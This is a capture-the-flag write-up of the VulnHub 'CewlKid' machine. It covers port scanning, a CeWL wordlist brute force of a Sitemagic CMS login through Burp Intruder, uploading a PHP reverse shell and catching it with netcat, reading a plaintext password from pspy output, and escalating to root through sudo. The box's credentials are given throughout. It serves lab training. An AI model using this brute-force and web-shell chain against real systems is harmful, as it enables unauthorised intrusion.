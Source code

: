 ```yaml
---
title: Vulnhub - CewlKid
description: My writeup on CewlKid box.
categories:
 - vulnhub
tags: vulnhub cewl burp sitemagic pspy
---
```


![](https://1.bp.blogspot.com/-3AUQjk3oHL8/WimaprI9lnI/AAAAAAAALlg/7lgBVBpAAo45c38rxAdnDcs9SFOS_0CEgCLcBGAs/s1600/CeWL.jpg)

You can find the machine there > [CewlKid](https://www.vulnhub.com/entry/cewlkid-1,559/){:target="_blank"}

## Summary

We start by finding a sitemagic installation under port 8080 and we generate a custom wordlist using cewl. We run a brute force attack using burp and we're in and we  get shell as www-data. First privesc is easy we detect a plaintext password using pspy and privesc to root is simple because we can execute all commands as root. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.10
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 12:56 EEST
Nmap scan report for cewlkid.zte.com.cn (192.168.1.10)
Host is up (0.00059s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: 08:00:27:46:86:F9 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.44 seconds
$ nmap -p 22,80,8080 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 13:00 EEST
Nmap scan report for cewlkid.zte.com.cn (192.168.1.10)
Host is up (0.00035s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Sitemagic CMS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome - about us
```

port 80 has nothing, let's start the enumeration with port 8080. Once we visit it we can see SiteMagic CMS running:

![](https://i.imgur.com/NV3EDRL.png)

The box name is "cewlkid" so we can understand easily that we have to use cewl to do brute force. Always check the box name, sometimes spoils the box content! :wink: A fast
google search `sitemagic default username` gives us the default username "admin". Let's generate a wordlist now with cewl.

```
$ cewl http://$ip:8080/ -w wordlist.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
$ wc -l wordlist.txt 
200 wordlist.txt
```

## Shell as www-data

Let's fire up burp suite now, i tried to do brute force with hydra but no luck i dont know why. Follow my steps:

1) Go to login page and enter random creds & capture this with burp suite & then send to intruder:

![](https://i.imgur.com/jeRvTRN.png)

2) Now on positions tab, select attack type `sniper` because we have only 1 payload. Then press clear and highlight the password and press add:

![](https://i.imgur.com/OYgQ1RD.png)

3) Now we go to payloads tab and load the wordlist we generated before & press start attack:

![](https://i.imgur.com/7fCldky.png)

Let it run, we have to check for anomalies in the responses. We got one! on password `Letraset`:

![](https://i.imgur.com/S81nBtb.png)

We're in as `admin:Letraset` now go to Content -> Files and upload a reverse shell:

![](https://i.imgur.com/qVPlCM9.png)

To execute it we can see the how the directories go files -> images so:

```
$ curl http://$ip:8080/files/images/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cewlkid:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as cewlbeans

I did lot of enumeration & i found lot of dead end privescs. Anyway i had the idea to use [pspy](https://github.com/DominicBreuker/pspy){:target="_blank"} to detect any cronjob and i found some plaintext creds for user cewlbeans:

```
www-data@cewlkid:/tmp$ ./pspy64 -p -i 1000
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

..data..

2020/09/26 10:56:01 CMD: UID=0    PID=1583   | /bin/sh /root/pth-toolkit-master/pth-winexe -U cewlbeans%fondateurs //kali whoami 
```

And we can login now using SSH as `cewlbeans:fondateurs`:

```
$ ssh cewlbeans@$ip
cewlbeans@192.168.1.10's password: 

cewlbeans@cewlkid:~$ whoami;id
cewlbeans
uid=1004(cewlbeans) gid=1004(cewlbeans) groups=1004(cewlbeans)
```

## Shell as root

If we check `sudo -l` we can see that we can execute all commands as root:

```
cewlbeans@cewlkid:~$ sudo -l
Matching Defaults entries for cewlbeans on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cewlbeans may run the following commands on cewlkid:
    (ALL : ALL) ALL
cewlbeans@cewlkid:~$ sudo bash 
root@cewlkid:/home/cewlbeans# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flag:

![](https://i.imgur.com/2VF7VLt.png)

Awesome :fire:






